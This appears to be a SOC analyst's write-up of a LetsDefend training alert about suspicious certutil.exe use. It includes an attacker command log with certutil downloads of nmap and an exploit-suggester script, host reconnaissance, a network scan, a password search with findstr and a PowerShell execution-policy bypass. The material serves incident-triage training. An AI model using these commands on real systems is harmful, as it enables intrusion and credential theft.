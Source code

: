 # discreption
- EventID :`113`
- Event Time :`Mar, 01, 2022, 11:06 AM`
- Rule :`SOC163 - Suspicious Certutil.exe Usage`
- Level :Security Analyst
- Hostname :`EricProd`
- IP Address :`172.16.17.22`
- Related Binary :`certutil.exe`
- Binary Path :`C:/Windows/System32/certutil.exe`
- Command Line : `certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-win32.zip nmap.zip`
- Alert Trigger Reason : `-f parameter with certutil.exe`
- EDR Action : Allowed

```
A LoLBin is any binary supplied by the operating system that is normally used for legitimate purposes but can also be abused by malicious actors. Several default system binaries have unexpected side effects, which may allow attackers to hide their activities post-exploitation.
(definition: talosintelligence.com)
```
```
Determine which binary is supplied by the operating system but is also home to suspicious activities. To do this, you can resort to the alert details on the Monitoring page or Endpoint Security.
```
Certutil.exe: Attackers encode a file using base64 and then use CertUtil to download it from a remote URL to the victim’s device
`certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py`

- Certutil.exe: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil

```ps1
#01.03.2021 10:11
whoami
#01.03.2021 10:13
net user
#01.03.2021 10:16
net user
#01.03.2021 10:17
ipconfig
#01.03.2021 10:18
ipconfig /all
#01.03.2021 10:19
net Localgroup
#01.03.2021 10:22
net start
#01.03.2021 10:24
netstat
#301.03.2021 10:25
tasklist
#01.03.2021 10:27
systeminfo
#01.03.2021 11:06
certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip
#01.03.2021 11:07
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py
#01.03.2021 11:08
nmap -sV 192.168.0.0/24 -p 80
#01.03.2021 11:27
python3 check.py
#01.03.2021 18:54
arp -a
#01.03.2021 19:32
findstr /si pass *.txt | *.xml| *.ini
#01.03.2021 21:36
C:/powershell.exe -nop -exec bypass
```
- Q1
```
Previously, you found the related binary. Now, we’d like you to determine whether it was used for malicious purposes. You can use the link below to determine how legal binary can be used to perform malicious activities.

LOLBAS Project
There are some characteristics common to command lines:

They often have a file-path or other artifact as one of the arguments, that changes based on the user environment or machine, such as usernames or system GUIDs in file paths.
The order of arguments in the command change, or a single argument has a slightly different value.
They can have randomly generated strings in embedded URLs or file paths.
They can be obfuscated on purpose by attackers (variable assignment, invocation of string expressions created on the fly, etc).
(list source: sophos.com)


Is the current activity suspicious?
```
- `yes`

![image](https://github.com/seiffawal/Let-s-defend_events/assets/83987697/50317ca9-8c76-45a6-aaee-b054b8f2f867)

`https://lolbas-project.github.io/`
## Q2
- Determine Suspicious Activity: Yes, suspicious
## Q3
Question: What Is Suspicious Activity?
```ps
#01.03.2021 11:06
certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip
#01.03.2021 11:07
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py
```
`Download`
## Q4
Question: Who Performed the Activity?
after checking cmd log it know it's user
`User`
